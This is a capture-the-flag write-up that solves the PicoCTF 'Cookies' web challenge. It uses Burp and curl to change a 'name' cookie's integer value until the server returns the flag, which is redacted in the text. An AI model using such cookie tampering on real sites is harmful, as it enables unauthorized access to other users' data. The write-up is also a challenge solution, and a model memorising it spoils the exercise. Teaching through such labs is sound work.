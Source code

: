 ```yaml
---
title: PicoCTF - Cookies
date: 2023-12-08
categories: [CTF, Web]
tags: [picoctf, web, web-exploitation, cookies, http-requests, burp-suite, curl]
img_path: /assets/picoctf/web_exploitation/cookies
published: true
---
```


![](cookie_banner.png){: width='60%' .normal}

Visiting the link:

![](home.png){: width='60%' }

Putting `snickerdoodle` as input results to:

![](snickerdoodle_cookie.png)

Intercepting the traffic with Burp and refreshing the page:

![](0_snickerdoodle.png)

We have a cookie called `name` set to value `0`. Playing around with different cookie values results to different responses, including the flag:

![](1_choc.png)

![](2_oat.png)

![](18_flag.jpg)

![](28_mac.png)

We can also do the same process using `curl`:

```shell
# getting the head info
curl http://mercury.picoctf.net:29649/ -I
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 209
Location: http://mercury.picoctf.net:29649/
Set-Cookie: name=-1; Path=/
```

We can see there there is a cookie called `name` with the value of `-1`. We can set our own value and see what happens:

```shell
# setting cookie's value to 0
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=0;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
```

```shell
# setting cookie's value to 1
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=1;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
```

```shell
# setting cookie's value to 18
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
```

We notice that when the cookie to `name=18` it does not return any cookie back! We can inspect the full response:

```shell
# getting the full response back
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{<SNIP>}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```